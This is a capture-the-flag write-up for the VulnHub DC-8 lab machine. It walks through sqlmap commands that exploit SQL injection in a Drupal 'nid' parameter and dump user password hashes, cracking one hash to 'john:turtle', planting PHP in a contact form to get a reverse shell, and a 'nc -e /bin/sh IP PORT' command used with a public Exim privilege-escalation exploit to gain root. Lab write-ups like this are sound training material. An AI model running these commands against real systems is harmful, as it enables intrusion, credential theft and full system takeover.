<h1 align="center" style="font-size:30px;">
   
  <a href="https://www.vulnhub.com/">DC-8</a>
   
</h1>

<h4 align="center"> Author: <a href="https://twitter.com/DCAU7"> DCAU7</a></h4>

## Nmap



only two ports are open. A SSH service and a HTTP service with a `robots.txt` file present.

***

## HTTP



There was something odd. The links on the left side resulted in `IP/?nid=2` type of URL but links with same name on the header caused in URLs of type `IP/node/2`. So I Checked the `?nid=` type URLs for LFI and got some SQL related error.



And since it's related to SQL I decided to run SQLmap on it.

Sqlmap found `nid` to be vulnerable and using that I got 2 DB in output.

`➜ sqlmap -u http://192.168.56.122/\?nid\= --level 4 --dbs `



I used the `d7db` DB to dump all the tables in it. In output I got `88` tables.

`➜ sqlmap -u http://192.168.56.122/\?nid\= --level 4 -D d7db --tables`



The first table I dumped was `users` in which I found 3 users along with their password hash.

`➜ sqlmap -u http://192.168.56.122/\?nid\= --level 4 -D d7db -T users --dump`



I saved those hashes to a file and ran `John` on it.



`john:turtle`

So Now we have credential which we can use to login in Drupal. The login page can be found on `/user/login/`

After spending lot of time I figure out that we need to edit the `form-setting` and change the `text format` to `php code`.

And then we can submit the form which will trigger the reverse shell.



__NOTE__: Make sure to have some random text above your PHP code. If you have only php code in that(`Submission setting`) section then submitting the form won't trigger any thing.
Thanks to __[@DCAU7](https://twitter.com/DCAU7)__ for pointing that out.

If you did everything right then after submitting a random `Contact us` form info you'll get the reverse shell.



***

## Privilege escalation

I ran the enumeration script but didn't find anything good. I tried looking for everything like sudo right or SUIDs but I found nothing.

After sometime [@DCAU7](https://twitter.com/DCAU7) and [@theart42](https://twitter.com/theart42) told me that we have to exploit `exim4` binary.

We can see `exim4` is set as SUID



To see the exact version of `exim4` we can use `dpkg -l`



Since the version is `4.89` we can use [Exim 4.87 - 4.91 - Local Privilege Escalation](https://www.exploit-db.com/exploits/46996).

Download the exploit and run it as `bash exploit.sh -m netcat` and the moment you get the message saying localhost is opened run command like `nc -e /bin/sh IP PORT` to get the root shell.



After running that nc command I got root shell on my `nc` listener.



Now get the root flag



***

This was an awesome machine. The method to get the reverse shell was amazing, because even though in `drupal 8` the PHP code exec thing is removed from core we still were able to run that kind of code, that is because of giving editing access `john` had.

Also the root part kinda new too me because I never exploited exim4 before even if it was marked as SUID, but as [@theart42](https://twitter.com/theart42) said `Version of the binary also matters`.

Thanks to [@DCAU7](https://twitter.com/DCAU7) for this awesome addition to the awesome series.Also thanks to [@theart42](https://twitter.com/theart42).

***

Thanks for reading, Feedback is always appreciated.

Follow me [@0xmzfr](https://twitter.com/0xmzfr) for more “Writeups”. And if you'd like to support me considering [donating](https://mzfr.github.io/donate/) 😄
